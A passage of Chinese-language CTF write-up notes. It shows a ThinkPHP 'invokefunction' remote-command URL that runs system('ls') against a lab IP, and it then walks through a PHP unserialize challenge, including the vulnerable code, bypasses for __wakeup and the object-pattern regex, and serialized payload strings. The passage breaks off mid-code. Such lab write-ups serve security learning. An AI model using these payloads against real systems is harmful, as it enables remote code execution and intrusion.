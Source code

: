      - `http://220.249.52.133:54736/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls`
     - 对app实例化，然后执行后面的shellcode

# web_php_unserialize
- 基本的几个要点：
 1. __wakeup()是用在反序列化操作中。unserialize()会检查存在一个__wakeup()方法。如果存在，则先会调用__wakeup()方法。
 2. 如果可以不执行__wakeup()方法，转而执行__destruct()方法，那么就可以通过修改file的值，从而展现flag的内容
 3. 绕过__wakeup()的方法是：将序列化的变量个数改变就好了，<font color=#FF0033>当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行</font>。
 4. 绕过正则表达式的方法：
     - 本题的正则表达式：/[oc]:\d+:/i
     - 意义为：匹配o或c，:,和1个以上的数字，比如：O:4
     - 要绕过的话，在4前面加个+就好：O:+4
- 掌握了几个基本的绕过要点之后，接下来看怎么进行注入
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```
- 这段php代码，先是定义了一个`Demo`类，Demo的函数很容易理解，__wakeup()为魔术函数，用来保证file不会被改变的
- 在下面的代码段中，可以看到，先对`var`进行一个base64解码，然后进入正则匹配，如果匹配到，则die(终止)；如果没有，则反序列化var，那么这步反序列化就是注入的关键了
- 整道题的思路就很清晰了：
 1. 对Demo进行序列化
 2. 对序列化后的Demo稍加改进，使之可以绕过正则
 3. 对序列化后的Demo进行base64转码
 4. 对var进行赋值（因为var是_GET方法，所以这里直接?就可以了）
- 进行第一步的时候，我犯了错误，原来我自己写的字符串是：
```
O:4:"Demo":1:{s:8:"fl4g.php"}
```
- O:4:"Demo"表示，对象，Demo，4个字；:1:表示Demo有一个变量；s:8:"fl4g.php"表示，字符串：fl4g.php，8个字
- 但是实际上序列化后的字符串为：
 - "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
 - 就恩多一个`s:10:"Demofile"`出来？？？？？
 - 这里应该是类方法私有属性的一个特别之处，Demofile=>fl4g.php
 - 比如这里修改一下Demo，得到`O:4:"Test":1:{s:10:"Testfile";s:8:"fl4g.php";}`
```php
<?php 
```